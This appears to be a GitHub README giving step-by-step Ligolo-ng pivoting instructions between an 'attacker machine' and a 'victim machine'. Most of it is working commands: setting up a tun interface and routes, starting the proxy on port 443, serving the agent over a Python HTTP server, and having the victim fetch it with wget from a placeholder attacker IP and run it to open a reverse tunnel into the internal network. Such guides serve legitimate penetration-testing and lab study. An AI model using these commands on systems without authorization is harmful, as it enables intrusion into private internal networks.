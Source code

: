 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=30&duration=4000&pause=1&color=FFFFFF&multiline=true&width=485&height=80&lines=%E2%94%8C%E2%94%80%E2%94%80(ThisizAmen%E3%89%BFKaniber)-%5B%2F%5D;%E2%94%94%E2%94%80%23+Ligolo+Proxy+Setup)](https://git.io/typing-svg)

## Overview

This guide provides step-by-step instructions to set up Ligolo Proxy and Ligolo Agent for establishing a reverse proxy tunnel between an attacker machine and a victim machine. This setup allows for accessing internal network resources through the tunnel.

### Prerequisites

- Linux-based system
- Root privileges (or equivalent)
- Ligolo Proxy and Ligolo Agent executables

---

## 1. Download Ligolo Proxy and Agent

Before setting up the tunnel, you need to download the necessary executables:

- **Ligolo Proxy**: A tool for setting up the reverse proxy on the attacker machine.
- **Ligolo Agent**: A tool that runs on the victim machine to connect back to the attacker.

### Proxy Download:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

### Agent Download:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

After downloading, unpack the `.tar.gz` files using:
```bash
tar -xzvf <filename>.tar.gz
```

---

## 2. Setup Ligolo Tunnel on the Attacker Machine

### Change the user from 'root' to your custom user (optional but recommended for security):
```bash
sudo ip tuntap add user <your_username> mode tun ligolo
```

### Delete any conflicting IP routes (if you're using VPN):
```bash
sudo ip route del 192.168.98.0/24 dev tun0
```

### Add the desired internal network range to the Ligolo tunnel:
```bash
sudo ip link set ligolo up
sudo ip route add 192.168.98.0/24 dev ligolo
```

### Start the Ligolo Proxy:
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```

---

## 3. Setup Ligolo Agent on the Victim Machine

### Download the Ligolo Agent from the Attacker Machine:

Ensure you have a Python HTTP server running on the attacker machine to serve the agent:
```bash
python3 -m http.server 8000
```

On the victim machine, download the agent:
```bash
wget http://<attacker_machine_ip>:8000/agent -P /opt/
```

### Make the Agent executable and run it:
```bash
chmod +x /opt/agent
/opt/agent -connect <attacker_machine_ip> -ignore-cert
```

---

## 4. Access the Internal Network (Attacker Machine)

Once the agent is running on the victim machine and connected back to the attacker, follow these steps to access the internal network:

1. Open the Ligolo menu:
```bash
session
```

2. Start the session:
```bash
start
```

---

## Conclusion

You have now successfully set up the Ligolo Proxy and Agent, allowing access to the internal network of the victim machine. You can now interact with the internal resources securely through the established tunnel.

---

### Tips & Troubleshooting

- If the connection is not working, ensure that both machines are on the same network or have reachable IPs.
- Check firewall rules if any traffic is being blocked.
- Ensure that the correct paths for executables are set in the commands.

---

## About the Author

Hi, I am **Amin Gurbanli**. If you have any questions or need further assistance, feel free to connect with me on [LinkedIn](https://www.linkedin.com/in/amin-gurbanli/).
